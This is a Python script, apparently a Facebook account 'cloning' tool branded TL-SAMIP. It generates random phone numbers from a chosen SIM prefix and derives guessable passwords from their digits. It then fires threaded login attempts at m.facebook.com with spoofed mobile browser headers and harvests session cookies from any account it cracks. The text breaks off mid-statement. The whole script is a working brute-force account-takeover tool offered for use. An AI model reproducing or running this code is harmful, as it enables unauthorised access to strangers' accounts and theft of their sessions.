 import requests,bs4,json,os,sys,random,datetime,time,re
import string
from time import sleep as slp
from concurrent.futures import ThreadPoolExecutor as tred
from bs4 import BeautifulSoup as sop
from bs4 import BeautifulSoup
ugen=[]
loop = 0
oks = []
cps = []

#python en.py
ses = requests.Session()
session = requests.Session()
bblack="\033[1;30m"         # Black
M="\033[1;31m"            # Red
H="\033[1;32m"         # Green
byellow="\033[1;33m"        # Yellow
bblue="\033[1;34m"          # Blue
P="\033[1;35m"        # Purple
C="\033[1;36m"          # Cyan
B="\033[1;37m"         # White
p = '\x1b[0;34m' # BIRU + 
#----------machin--------#
def clear():
	os.system('clear')
logo=(f""" {C}
 ######   ##                 ####      ##     ##   ##   ####    #####     ####   
   ##     ##                ##  ##    ####    ### ###    ##     ##  ##   ##  ##  
   ##     ##                ##       ##  ##   #######    ##     ##  ##   ## ###  
   ##     ##       ######    ####    ######   ## # ##    ##     #####    ## ###  
   ##     ##                    ##   ##  ##   ##   ##    ##     ##       ##      
   ##     ##                ##  ##   ##  ##   ##   ##    ##     ##       ##   #  
   ##     ######             ####    ##  ##   ##   ##   ####    ##        ####   
                                                                        
{B}----------------------------------------{B}
[{C}+{B}] WONER : TL- SAMIP
[{C}+{B}] FACEBOOK : OFFICIAL HACKER 
[{C}+{B}] WHATSAPP : 9815156629
[{C}+{B}] TOOL : RANDOM 
[{C}+{B}] VERSION : 1.0.0""")

def main():
	clear()
	print(logo)
	print(42*'-')
	print(f'[{C}1{B}] RANDOM CLONE')
	print(f'[{C}2{B}] EXIT')
	option = input(f'CHOICE :{C} ')
	if option =='1':SMP()
	
def SMP():
	user=[]
	os.system('clear')
	print(logo)
	print (f'EXAMPLE : 981')
	code = input(f'choice : ')
	print(f'EXAMPLE : [2000] [3000] [5000] [1000]')
	limit = int(input('choice : '))
	os.system('clear')
	print(logo)
	for nmbr in range(limit):
		nmp=''.join(random.choice(string.digits) for _ in range(8))
		user.append(nmp)
	with tred(max_workers=30) as XSV:
		tl=str(len(user))
		print (42*'-')
		print(f'[{C}+{B}] TOTAL ACCOUNT : '+tl)
		print(f'[{C}+{B}] YOUR SIM CODE : '+code)
		print(f'[{C}+{B}] RUNNING PLEASE : WAIT ')
		print (42*'-')
		for psx in user:
			ids=code+psx
			passlist=[psx,ids,ids[:7],ids[:6],ids[5:],ids[4:]]
			XSV.submit(method_crack,ids,passlist,tl)
            
            
def method_crack(ids,passlist,tl):
    global loop,oks,cps
    try:
        for ps in passlist:
            pro = random.choice(ugen)
            print(ids)
            #nip=random.choice(prox)
            sys.stdout.write(f'\r\r[{C}CRACKING{B}] [{C}%s{B}] [{C}%s{B}][OK:{C}%s{B}]\r'%(loop,tl,len(oks))) 
            sys.stdout.flush()
            free_fb = session.get('https://m.facebook.com/').text
            log_data = {
                "lsd":re.search('name="lsd" value="(.*?)"', str(free_fb)).group(1),
            "jazoest":re.search('name="jazoest" value="(.*?)"', str(free_fb)).group(1),
            "m_ts":re.search('name="m_ts" value="(.*?)"', str(free_fb)).group(1),
            "li":re.search('name="li" value="(.*?)"', str(free_fb)).group(1),
            "try_number":"0",
            "unrecognized_tries":"0",
            "email":ids,
            "pass":ps,
            "login":"Log In"}
            header_freefb = {'authority': 'm.facebook.com',
            'method': 'GET',
            'scheme': 'https',
            'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
            'accept-language': 'en-GB,en-US;q=0.9,en;q=0.8',
            'cache-control': 'max-age=0',
            'dpr': '1.600000023841858',
            'referer': 'https://m.facebook.com/?stype=lo&deoia=1&jlou=AfeyZ9SKK_nPj3o1fCktTSTlDcUcBVr2oMD-zsARm2FHbCy6_pztG3yOydTCc-LNULynGmGct5WBiuevHEZkIuhJWkkhpMrT6eMd3ROgxHFLnw&smuh=17697&lh=Ac-ZphqTpa-3mShBwmw&wtsid=rdr_0Q8KhNHqjhUoCT7ta&refid=8&hide_dialog=1&refsrc=deprecated&_rdr',
            'sec-ch-prefers-color-scheme': 'light',
            'sec-ch-ua': '"Not_A Brand";v="8", "Chromium";v="120"',
            'sec-ch-ua-full-version-list': '"Not_A Brand";v="8.0.0.0", "Chromium";v="120.0.6099.116"',
            'sec-ch-ua-mobile': '?1',
            'sec-ch-ua-model': '"Redmi Y3"',
            'sec-ch-ua-platform': '"Android"',
            'sec-ch-ua-platform-version': '"10.0.0"',
            'sec-fetch-dest': 'document',
            'sec-fetch-mode': 'navigate',
            'sec-fetch-site': 'same-origin',
            'sec-fetch-user': '?1',
            'upgrade-insecure-requests': '1',
            'user-agent': 'Mozilla/5.0 (Linux; Android 10; moto g(7)) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Mobile Safari/537.36',
            'viewport-width': '980',}
            lo = session.post('https://m.facebook.com/login/?next&ref=dbl&fl&login_from_aymh=1&refid=8',data=log_data,headers=header_freefb).text
            log_cookies=session.cookies.get_dict().keys()
            if 'c_user' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid = coki[7:22]
                print(f'\r{B}[{
